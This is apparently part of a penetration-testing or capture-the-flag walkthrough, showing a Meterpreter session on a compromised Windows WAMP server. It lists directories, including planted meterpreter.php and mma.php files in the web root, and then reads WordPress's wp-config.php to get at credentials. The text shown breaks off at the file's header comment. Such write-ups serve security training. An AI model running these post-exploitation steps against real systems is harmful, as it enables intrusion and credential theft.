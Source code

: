 
meterpreter > cd wamp
meterpreter > ls
Listing: C:\wamp
================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040777/rwxrwxrwx  4096     dir   2021-10-28 20:07:14 +0530  alias
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:05 +0530  apps
100666/rw-rw-rw-  4790     fil   2010-12-31 21:09:42 +0530  barimage.bmp
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:08 +0530  bin
100666/rw-rw-rw-  16054    fil   2011-01-04 01:19:34 +0530  images_off.bmp
100666/rw-rw-rw-  16054    fil   2011-01-04 01:19:34 +0530  images_on.bmp
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:09 +0530  lang
100666/rw-rw-rw-  15668    fil   2010-12-31 22:56:16 +0530  license.txt
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:11 +0530  logs
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:09 +0530  scripts
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:09 +0530  tmp
040777/rwxrwxrwx  0        dir   2021-10-28 20:00:09 +0530  tools
100666/rw-rw-rw-  182407   fil   2021-10-28 20:00:09 +0530  unins000.dat
100777/rwxrwxrwx  913246   fil   2021-10-28 20:00:04 +0530  unins000.exe
100777/rwxrwxrwx  209      fil   2021-10-28 20:00:09 +0530  uninstall_services.bat
100666/rw-rw-rw-  994      fil   2021-10-28 20:00:09 +0530  wampmanager.conf
100777/rwxrwxrwx  1169920  fil   2010-12-31 21:10:06 +0530  wampmanager.exe
100666/rw-rw-rw-  1147     fil   2021-10-28 20:00:09 +0530  wampmanager.ini
100666/rw-rw-rw-  12681    fil   2021-10-28 20:00:09 +0530  wampmanager.tpl
<strong>040777/rwxrwxrwx  4096     dir   2021-10-28 20:07:30 +0530  www
</strong>


meterpreter > cd www
meterpreter > ls
Listing: C:\wamp\www
====================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  22409  fil   2021-10-28 20:00:09 +0530  index.php
100666/rw-rw-rw-  1189   fil   2021-10-28 19:49:02 +0530  meterpreter.php
100666/rw-rw-rw-  491    fil   2021-10-28 19:49:02 +0530  mma.php
100666/rw-rw-rw-  190    fil   2010-12-31 21:10:06 +0530  testmysql.php
040777/rwxrwxrwx  0      dir   2021-10-28 20:07:14 +0530  uploads
040777/rwxrwxrwx  0      dir   2016-09-27 03:58:12 +0530  wordpress




meterpreter > cat wordpress\\wp-config.php
&#x3C;?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */